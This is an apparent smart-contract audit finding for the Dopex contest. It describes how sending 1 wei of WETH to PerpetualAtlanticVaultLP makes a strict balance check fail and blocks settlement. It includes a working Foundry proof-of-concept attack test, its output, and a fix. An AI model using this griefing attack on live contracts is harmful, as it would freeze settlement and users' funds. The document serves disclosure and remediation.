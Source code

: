 # Dopex

The code under review can be found in [2023-08-dopex](https://github.com/code-423n4/2023-08-dopex).

## Findings Summary

| ID                                                                                                                                                                                        | Title                                                                                                 | Summary |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- | ------- |
| [H-01](https://github.com/kazantseff/audits/blob/main/contests/2023-08-dopex.md#m-01-substractloss-function-in-perpetualatlanticvaultlp-can-revert-and-cause-the-settlement-proccess-dos) | `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS | High    |

## [H-01] `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS

### Vulnerability Details

The `substractLoss()` function of PerpetualAtlanticVaultLP is called in the settlement proccess of PerpetualAtlanticVault and can revert and cause DoS if the malicious user sends 1 wei of collateral to the PerpetualAtlanticVaultLP.
When calling `settle()` in PerpetualAtlanticVault few actions are made:

1.  The collateral is transfered from PerpetualAtlanticVaultLP:

```solidity
 collateralToken.safeTransferFrom(
     addresses.perpetualAtlanticVaultLP,
     addresses.rdpxV2Core,
     ethAmount
   );
```

2. The `substractLoss()` is invoked with ethAmount:

```solidity
IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
    ethAmount
  );
```

The root cause of the issues is that `substractLoss()` uses strict equality in the require statement.

```solidity
require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
```

If prior to the settlement a malicious user transfers 1 wei of WETH to the PerpetualAtlanticVaultLP, this check will always fail since `collateral.balanceOf(address(this)) - ethAmount` will be greater than `_totalCollateral - ethAmount` by 1 wei.

### Impact

The settlement proccess will be DoS'ed.

### Proof Of Concept

```solidity
function testSettleRevert() public {
      // Mint weth to a malicious user
      address maliciousUser = address(1);
      weth.mint(maliciousUser, 1000 * 1e18);

      // make bond
      rdpxV2Core.bond(5 * 1e18, 0, address(this));
      rdpxV2Core.bond(1 * 1e18, 0, address(this));

      vault.addToContractWhitelist(address(rdpxV2Core));
      uint256[] memory _ids = new uint256[](1);

      _ids[0] = 0;
      rdpxPriceOracle.updateRdpxPrice(1e7);
      // the vault balance before attack
      console.log(
          "VaultLp Balance Before attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral before Attack",
          vaultLp.totalCollateral()
      );

      // send 1 wei to PerpetualAtlanticVaultLp
      vm.prank(maliciousUser);
      weth.transfer(address(vaultLp), 1);
      // balance after malicious user transfered 1 wei
      console.log(
          "VaultLp Balance After Attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after Attack",
          vaultLp.totalCollateral()
      );
      // the settlement reverts due to the check in PerpetualAtlanticVaultLP
      vm.expectRevert("Not enough collateral was sent out");
      rdpxV2Core.settle(_ids);

      // Skip 8 days to call PerpetualAtlanticVault.updateFundingPaymentPointer() to invoke addProceeds()
      skip(691200);
      vault.updateFundingPaymentPointer();
      // The balance is now updated as well as collateral becuase of the addProceeds() function
      console.log(
          "VaultLp Balance After addProceeds() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after addProceeds() is called",
          vaultLp.totalCollateral()
      );
      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);

      // trying to use deposit to fix the issue
      vaultLp.deposit(1e18, address(msg.sender));
      console.log(
          "VaultLp Balance After deposit() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after deposit() is called",
          vaultLp.totalCollateral()
      );

      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);
  }

```

The output of the state:

```
VaultLp Balance Before attack: 100000000000000000000
VaultLp _totalCollateral Before Attack 100000000000000000000

VaultLp Balance After Attack: 100000000000000000001
VaultLp _totalCollateral After Attack 100000000000000000000

VaultLp Balance After addProceeds() is called: 100367540499850000000
VaultLp _totalCollateral after addProceeds() is called 100367540499849999999

VaultLp Balance After deposit() is called: 101367540499850000000
VaultLp _totalCollateral after deposit() is called 101367540499849999999
```

As you can see `_totalCollateral` is always 1 wei lesser than contract balance.

### Recommended Mitigation Steps

Either remove the require check or make it less strict:

```diff
- require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
+ require(collateral.balanceOf(address(this)) >= _totalCollateral - loss,"Not enough collateral was sent out");
```
